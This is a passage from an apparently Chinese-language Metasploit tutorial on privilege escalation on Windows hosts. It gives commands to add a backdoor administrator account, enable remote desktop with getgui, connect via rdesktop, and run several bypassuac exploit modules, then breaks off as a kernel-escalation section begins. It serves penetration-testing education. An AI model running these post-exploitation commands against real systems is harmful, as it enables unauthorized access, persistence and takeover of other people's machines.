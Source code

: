 可以看到当前的用户是域管理员用户

![image-20210811143441503](msf提权.assets/image-20210811143441503.png)



当为管理员权限时，我们可以进入cmd中添加新用户并将其加入当地管理员用户组。

```
net user   用户名     密码      /add
net localgroup      Administrators    用户    /add
```



然后开启远程桌面服务

```
run getgui  -e
```



使用rdesktop命令去连接目标主机

```
rdesktop   -u   用户    -p  密码    目标主机ip地址
```





#### bypassuac

内置多个pypassuac脚本，原理有所不同，使用方法类似，运行后返回一个新的会话，需要再次执行getsystem获取系统权限

如:

```
use exploit/windows/local/bypassuac
use exploit/windows/local/bypassuac_injection
use windows/local/bypassuac_vbs
use windows/local/ask
```



下面使用bypassuac.rb脚本:

```
msf > use exploit/windows/local/bypassuac
msf > set SESSION 2
msf > run
```



#### 内核提权

连接shell后，利用enum_patches模块进行补丁信息收集
